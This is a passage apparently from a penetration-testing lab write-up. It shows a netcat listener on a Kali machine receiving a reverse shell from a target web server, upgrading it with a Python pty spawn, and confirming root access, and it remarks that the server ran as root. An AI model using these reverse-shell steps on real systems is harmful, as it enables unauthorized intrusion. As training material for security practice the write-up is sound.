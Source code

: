 We receive a shell.

```
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.127: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.127] 57636
python -c 'import pty; pty.spawn("/bin/bash")'
root@interface:/var/www/app/dist# whoami
whoami
root
root@interface:/var/www/app/dist#
```

Not only have we obtained a shell, but because the web server was misconfigured to run as root, we’ve obtained a root shell!